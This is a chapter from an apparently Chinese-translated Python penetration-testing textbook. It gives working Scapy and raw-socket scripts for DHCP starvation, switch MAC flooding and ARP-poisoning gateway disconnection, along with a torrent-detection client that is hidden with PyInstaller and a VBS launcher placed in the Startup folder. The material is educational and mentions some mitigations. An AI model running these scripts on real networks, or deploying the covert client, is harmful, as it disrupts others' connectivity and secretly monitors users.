





# 网络攻击和预防

在之前的章节中，您学习了网络扫描和网络嗅探。在本章中，您将看到不同类型的网络攻击以及如何防范它们。本章对网络管理员和网络渗透测试人员很有帮助。

在本章中，我们将涵盖以下主题。

+   **DHCP**（动态主机配置协议）饥饿攻击

+   交换机 MAC 洪泛攻击

+   通过原始套接字进行网关分离

+   Torrent 检测

到目前为止，您已经看到了 ARP 欺骗的实现。现在，让我们了解一种称为网络分离攻击的攻击。它的概念与 ARP 缓存中毒相同。

# 技术要求

您需要在系统上安装 Python 2.7.x。最后，要使用本书的 Git 存储库，用户需要安装 Git。

本章的代码文件可以在 GitHub 上找到：

[`github.com/PacktPublishing/Python-Penetration-Testing-Essentials-Second-Edition/tree/master/Chapter04`](https://github.com/PacktPublishing/Python-Penetration-Testing-Essentials-Second-Edition/tree/master/Chapter04)

查看以下视频以查看代码的运行情况：

[`goo.gl/oWt8A3`](https://goo.gl/oWt8A3)

# DHCP 饥饿攻击

在我们跳转到攻击之前，让我们看看 DHCP 服务器是如何工作的。当您通过交换机（接入点）连接到网络时，您的计算机会自动获取网络的 IP 地址。您可能想知道您的计算机从哪里获取了 IP。这些配置来自为网络配置的 DHCP 服务器。DHCP 服务器提供四个东西：IP 地址、子网掩码、网关地址和 DNS 服务器地址。但是如果您仔细分析，DHCP 服务器还为您分配 IP 地址提供了租约。在 Windows 命令提示符中键入`ipconfig/all`命令。租约获取和租约到期在以下截图中突出显示：



您可以在矩形中看到 DHCP 租约。在这种攻击中，我们将向 DHCP 服务器发送一个虚假请求。DHCP 服务器为虚假请求分配带有`租约`的 IP。这样，我们将在租约到期之前完成 DHCP 服务器的 IP 地址池。为了执行这次攻击，我们需要两台机器：一台攻击者机器，必须安装有 Scapy 和 Python 的 Linux，以及一台配置了 DHCP 的 Linux 机器。两者必须连接。您可以使用 Kali 作为攻击机，CentOS 作为 DHCP 服务器。您可以从[`l4wisdom.com/linux-with-networking/dhcp-server.php`](http://l4wisdom.com/linux-with-networking/dhcp-server.php)配置 DHCP 服务器。

在学习代码和攻击之前，您必须了解 DHCP 服务器的工作原理：

. 

从上图中，我们可以理解以下内容：

1.  客户端广播**DHCP 发现**请求，请求 DHCP 配置信息

1.  **DHCP 服务器**响应包含 IP 地址和租约配置信息的**DHCP 提供**消息

1.  客户端通过选择提供的地址来接受提供。作为回应，客户端广播**DHCP 请求**消息

1.  **DHCP 服务器**向客户端发送单播 DHCP ACK/回复消息，其中包含以下 IP 配置和信息：

+   IP 地址：`192.168.0.120`

+   子网掩码：`255.255.255.0`

+   默认网关：`192.168.0.1`

+   DNS 服务器：`192.168.0.2`

+   租约：一天

要获得更多澄清，请参阅以下 Wireshark 截图：



在上一张截图中，租约显示为六小时。

让我们看看代码；它有点难以理解，所以我把它分成不同的部分并解释了每一部分：

+   导入必要的库和模块如下：

```py
      from scapy.all import *
      import time
      import socket
      import struct
```

+   创建原始套接字以接收 IP 数据包如下：

```py
      s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, 
      socket.ntohs(0x0800))
      i = 1
```

+   使用 while 循环连续发送数据包：

```py
      while True:
```

+   使用 Scapy 创建以太网和 IP 数据包如下：

```py
    eth1 = Ether(src=RandMAC(),dst="ff:ff:ff:ff:ff:ff")
    ip1 = IP(src="img/0.0.0.0",dst="255.255.255.255")
```

+   使用 Scapy 创建 UDP 和 bootp 数据包如下：

```py
    udp1= UDP(sport=68,dport=67)
    bootp1= BOOTP(chaddr=RandString(12,'0123456789abcdef'))
```

+   创建 DHCP 发现和 DHCP 请求数据包如下：

```py
    dhcp1 = DHCP(options=[("message-type","discover"),"end"])
    dhcp2 = DHCP(options=[("message-type","request")])
    dhcp_discover = eth1/ip1/udp1/bootp1/dhcp1
    dhcp_discover[BOOTP].xid= 123456
```

+   只需使用 Scapy 发送 DHCP 发现数据包并使用原始套接字接收响应如下：

```py
    sendp(dhcp_discover)
    pkt = s.recvfrom(2048)
    num = pkt[0][14].encode('hex')
    ip_length = (int(num) % 10) * 4
    ip_last_range = 14 + ip_length
    ipheader = pkt[0][14:ip_last_range]
    ip_hdr = struct.unpack("!12s4s4s",ipheader)
    server_ip = socket.inet_ntoa(ip_hdr[1])
    obtained_ip = socket.inet_ntoa(ip_hdr[2])

```

+   使用从前面步骤获得的参数创建 DHCP 请求数据包如下：

```py
    print "Obtained IP ",obtained_ip
    print "DHCP server IP ",server_ip
    dhcp_request = eth1/ip1/udp1/bootp1/dhcp2
    dhcp_request[BOOTP].xid= 123456
    name='master'+str(i)

    i =i+1
    dhcp_request[DHCP].options.append(("requested_addr", obtained_ip))
    dhcp_request[DHCP].options.append(("server_id", server_ip))
    dhcp_request[DHCP].options.append(("hostname", name))
    dhcp_request[DHCP].options.append(("param_req_list",
    b'x01x1cx02x03x0fx06x77x0cx2cx2fx1ax79x2a'))
    dhcp_request[DHCP].options.append(("end"))
```

+   发送请求数据包并间隔`0.5`秒发送下一个数据包如下：

```py
    time.sleep(.5)
    sendp(dhcp_request)
```

代码名称为`dhcp_starvation.py`。代码的工作分为两部分。首先，攻击者机器发送发现数据包，然后 DHCP 服务器发送具有给定 IP 的 DHCP 提供数据包。在下一部分中，我们的代码提取给定的 IP 和服务器 IP，制作名为 DHCP 请求的新数据包，并将其发送到 DHCP 服务器。在运行程序之前，请检查 DHCP 服务器中的 DHCP 租约文件，该文件位于**`\var\lib\dhcpd\dhcpd.lease`**：


您可以看到文件是空的，这意味着没有分配 IP。运行程序后，文件应该被填满，如下面的屏幕截图所示：


前面的屏幕截图显示获得的 IP 意味着 DHCP 的第 2 步正在工作并已完成。程序成功发送了虚假的 DHCP 请求。请参阅 DHCP 服务器租约文件的屏幕截图：


前面的屏幕截图表明程序正在成功运行。

# MAC flooding 攻击

MAC flooding 涉及向交换机发送大量请求。**内容寻址存储器**（**CAM**）将交换机与集线器分开。它存储信息，例如连接设备的 MAC 地址和物理端口号。CAM 表中的每个 MAC 都分配了一个交换机端口号。有了这些信息，交换机就知道在哪里发送以太网帧。CAM 表的大小是固定的。您可能想知道当 CAM 表收到大量请求时会发生什么。在这种情况下，交换机将变成集线器，并且传入的帧将泛滥到所有端口，使攻击者能够访问网络通信。

# 交换机如何使用 CAM 表

交换机学习连接设备的 MAC 地址及其物理端口，并将该条目写入 CAM 表，如下图所示：


CAM 表学习活动

前面的图分为两部分。在第一部分中，具有**MAC A**的计算机向具有**MAC B**的计算机发送**ARP**数据包。交换机学习数据包是从物理端口`1`到达的，并在**CAM 表**中创建一个条目，使 MAC A 与端口`1`相关联。交换机将数据包发送到所有连接的设备，因为它没有**MAC B**的 CAM 条目。在图的第二部分中，具有**MAC B**的计算机做出响应。交换机学习它来自端口`2`。因此，交换机创建一个条目，指出**MAC B**计算机连接到端口`2`。

# MAC flood 逻辑

当我们发送大量请求时，如前图所示，如果主机 A 发送具有不同 MAC 的虚假 ARP 请求，那么交换机将每次为端口`1`创建一个新条目，例如`A—1`，`X—1`和`Y—1`。有了这些虚假条目，CAM 表将变满，并且交换机将开始表现得像集线器。

现在，让我们编写代码如下：

```py
from scapy.all import *
num = int(raw_input("Enter the number of packets "))
interface = raw_input("Enter the Interface ")

eth_pkt = Ether(src=RandMAC(),dst="ff:ff:ff:ff:ff:ff")

arp_pkt=ARP(pdst='192.168.1.255',hwdst="ff:ff:ff:ff:ff:ff")

try:
  sendp(eth_pkt/arp_pkt,iface=interface,count =num, inter= .001)

except : 
  print "Destination Unreachable "
```

前面的代码非常容易理解。首先，它要求您要发送的数据包数量。然后，对于接口，您可以选择`WLAN`接口或`eth`接口。`eth_pkt`语句使用随机 MAC 地址形成一个以太网数据包。在`arp_pkt`语句中，形成了一个带有目标 IP 和目标 MAC 地址的 ARP 请求数据包。如果要查看完整的数据包字段，可以使用 Scapy 中的`arp_pkt.show()`命令。

`mac_flood.py`的 Wireshark 输出如下截图所示：


MAC 洪泛攻击的输出

MAC 洪泛的目的是检查交换机的安全性。如果攻击成功，请在报告中标记为成功。为了减轻 MAC 洪泛攻击，使用端口安全。端口安全将入站流量限制为一组选择的 MAC 地址或有限数量的 MAC 地址和 MAC 洪泛攻击。

# 通过原始套接字断开网关

在这种攻击中，受害者将保持连接到网关，但将无法与外部网络通信。简单地说，受害者将保持连接到路由器，但将无法浏览互联网。这种攻击的原理与 ARP 缓存中毒相同。攻击将向受害者发送 ARP 回复数据包，该数据包将使用另一个 MAC 地址将受害者的 ARP 缓存中的网关的 MAC 地址更改为另一个 MAC。在网关中也是同样的操作。

代码与 ARP 欺骗的代码相同，只是有一些更改，如下所述：

```py
import socket
import struct
import binascii
s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, socket.ntohs(0x0800))
s.bind(("eth0",socket.htons(0x0800)))

sor = 'x48x41x43x4bx45x52'

victmac ='x00x0Cx29x2Ex84x7A'
gatemac = 'x00x50x56xC0x00x08'
code ='x08x06'
eth1 = victmac+sor+code #for victim
eth2 = gatemac+sor+code # for gateway

htype = 'x00x01'
protype = 'x08x00'
hsize = 'x06'
psize = 'x04'
opcode = 'x00x02'

gate_ip = '192.168.0.1'
victim_ip = '192.168.0.11' 
gip = socket.inet_aton ( gate_ip )
vip = socket.inet_aton ( victim_ip )

arp_victim = eth1+htype+protype+hsize+psize+opcode+sor+gip+victmac+vip
arp_gateway= eth2+htype+protype+hsize+psize+opcode+sor+vip+gatemac+gip

while 1:
  s.send(arp_victim)
  s.send(arp_gateway)
```

运行`netdiss.py`。我们可以看到代码中只有一个更改：`sor = 'x48x41x43x4bx45x52'`。这是一个随机的 MAC，因为这个 MAC 不存在。

为了进行 ARP 缓存中毒攻击，受害者应该在 ARP 缓存中有网关的真实条目。

您可能会想为什么我们使用了`'x48x41x43x4bx45x52'`MAC。将其转换为 ASCII，您将得到答案。

# 种子检测

网络管理员的主要问题是阻止用户机器上种子的使用。有时，小型组织或初创公司没有足够的资金购买防火墙来阻止种子的使用。在组织中，用户使用种子下载电影、歌曲等，这会占用大量带宽。在本节中，我们将看到如何使用 Python 程序消除这个问题。我们的程序将在种子程序运行时检测种子。

该概念基于客户端-服务器架构。服务器代码将在管理员机器上运行，客户端代码将在用户的机器上以隐藏模式运行。当用户使用种子时，客户端代码将通知服务器机器。

首先，看看以下服务器代码，并尝试理解代码。代码名称是`torrent_detection_server.py`：

+   按照以下方式导入必要的库：

```py
      import socket
      import logging
      import sys
```

+   为管理员打印消息。只使用*Ctrl* + *C*来停止程序，因为*Ctrl* + *C*由程序本身处理，套接字将自动关闭如下：

```py
      print "Welcome, torrent dection program started"
      print "Use only Ctrl+c to stop"
```

+   创建一个记录事件的日志文件，如下所示：

```py
      logger = logging.getLogger("torrent_logger")
      logger.setLevel(logging.INFO)
      fh = logging.FileHandler("torrent_dection.log")
      formatter = logging.Formatter('%(asctime)s - %(name)s - %      
      (levelname)s - %(message)s')
      fh.setFormatter(formatter)
      logger.addHandler(fh)
      logger.info("Torrent detection program started")
```

+   创建检测到的客户端列表，并定义服务器将在其上运行的服务器 IP 地址和端口，如下所示：

```py
      prcess_client = []
      host = "192.168.0.128"
      port = 54321
```

+   创建 UDP 套接字，如下所示：

```py
      s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
      s.bind((host,port))
```

+   创建一个循环以持续监听。以下代码块接收来自客户端的消息，并在日志文件中记录事件，如下所示：

```py
      while True:
        try:

          data, addr = s.recvfrom(1024)
          print "\a\a\a\a\a\a\a"
          if addr[0] not in prcess_client :
            print data, addr[0]
            line = str(data)+" *** "+addr[0]
            logger.info(line)
            line = "\n****************************\n"
            logger.info(line)
          prcess_client.append(addr[0])
        except KeyboardInterrupt:
          s.close()
          sys.exit()

        except:
          pass
```

现在让我们看看客户机的代码。打开`service.py`代码：

+   按照以下方式导入必要的库和模块：

```py
      import os
      import re
      import time
      import socket
      import getpass
```

+   定义服务器 IP 和服务器端口，以便创建套接字，如下所示：

```py
      host = "192.168.0.128"
      port = 54321
```

+   使用无限循环，使程序保持活动状态，如下所示：

```py
      while True:
        try:
          s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
          name =socket.gethostname()
          user = getpass.getuser()
```

+   查看当前任务列表，并尝试在任务列表中找到种子。如果找到种子，向服务器发送精心制作的消息如下：

```py
    response = os.popen('tasklist')
    for line in response.readlines():
      str1 = "Torrent Identified on host "+str(name)+" User "+str(user)
      if re.search("torrent", line.lower()):
        s.sendto(str1,(host,port))
        s.sendto(str1,(host,port))
        s.sendto(str1,(host,port))
        #s.send("")
        break

          s.close()
          time.sleep(30)
        except :
          pass
```

在前面的程序中，我使用了`30`秒作为下一次迭代的时间，以获得快速结果。您可以根据自己的方便更改时间。如果流量很大，可以使用 15 分钟（`15*60`）。

为了运行和测试我们的程序，我们至少需要两台计算机。一个程序将在由网络管理员处理的服务器上运行。第二个程序将在客户机上运行。

让我们逐个运行代码并研究我们的测试用例：种子正在运行时和种子未运行时。首先运行服务器程序。你可以在任何操作系统上运行服务器程序：


服务器程序正在运行；让我们运行客户端代码`service.py`，如下面的截图所示：


上面的程序只是运行并不断扫描当前任务。由于我们在程序中定义了 30 秒，它会在 30 秒后扫描当前任务。看下面的截图，这是在 Windows 任务管理器中运行的种子服务：



所以 uTorrent 正在客户机上运行。如果客户端代码发现包含种子名称的任务，那么它会将消息发送到服务器。因此，在客户端程序中，我们使用了`response = os.popen('tasklist')`这一行，它在命令提示符中运行 tasklist 命令，如下面的截图所示：


上面的截图显示了种子正在运行。

如果在客户机上运行种子文件，那么服务器会收到以下消息：



搞定！一台名为`Intel`的机器，用户为`Mohit`，IP 地址为`192.168.0.129`，正在使用种子。客户端发送了三条消息给我们，但我们只显示了一条。我们使用的是 UDP，这是一种无连接的协议。如果数据包在传输中丢失，服务器和客户端都不会知道。这就是为什么客户端发送了三个数据包。

为什么使用 UDP 而不是 TCP？TCP 是一种面向连接的协议。如果服务器机器宕机，那么客户机上的程序将开始报错。

如果你在屏幕上丢失了输出，你可以在日志文件中检查输出。打开`torrent_dection.log`：



现在你应该更好地理解了种子检测。但我们的工作还没有完成。如果客户机上的用户知道某种检测程序正在运行，他们可能会停止程序。我们必须让客户端代码以隐藏模式运行。

# 以隐藏模式运行程序

首先，我们必须将`service.py`程序更改为 Windows 可执行文件。为了将 Python 程序转换为 Windows 可执行文件，我们将使用 Pyinstaller。

让我们将文件改为 Windows 可执行文件。将`service.py`代码文件复制到`C:\PyInstaller-2.1`文件夹中。

打开命令提示符，浏览到`C:\PyInstaller-2.1`文件夹，并运行以下命令：

```py
Python pyinstaller.py --onefile <file.py>
```

查看下面的截图以获得更多解释：


上面的截图是不言自明的。现在可执行文件已经创建，可以通过点击来运行。当你点击时，它会打开命令提示符屏幕。

现在以隐藏模式运行可执行程序。

创建一个`service.vbs`文件，并在文件中写入以下行：

```py

Dim WinScriptHost
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "%WINDIR%\service.exe" & Chr(34), 0
Set WinScriptHost = Nothing
```

在上面的文件中，我使用了`%WINDIR%`，它表示`Windows`文件夹；因为我在`C:`驱动器上安装了 Windows，`%WINDIR%`就变成了`C:\Windows`。只需点击`service.vbs`。`service.exe`程序将作为守护进程运行，没有图形界面，只有后台处理。将`service.vbs`放在`Windows 启动`文件夹中，这样下次 Windows 启动时，`service.vbs`文件将自动执行。

希望你喜欢这一章。

# 总结

在本章中，我们学习了网络攻击；DHCP 饥饿攻击可以通过使用我们的 Python 代码来高效地执行。Python 代码可以用于非法的 DHCP 服务器。MAC 洪泛攻击可以将交换机变成集线器。必须启用端口安全以减轻攻击。网关断开攻击非常容易执行；攻击者可以使用这种攻击来打扰用户。网关在 ARP 缓存中的静态条目可能是对抗攻击的一个可能解决方案。尽管下载种子被禁止，但对于小型组织来说仍然是一个大问题。本章介绍的解决方案对抗种子下载可能非常有效。在下一章中，您将学习关于无线流量监控的内容。您将学习无线帧、帧捕获和无线攻击。
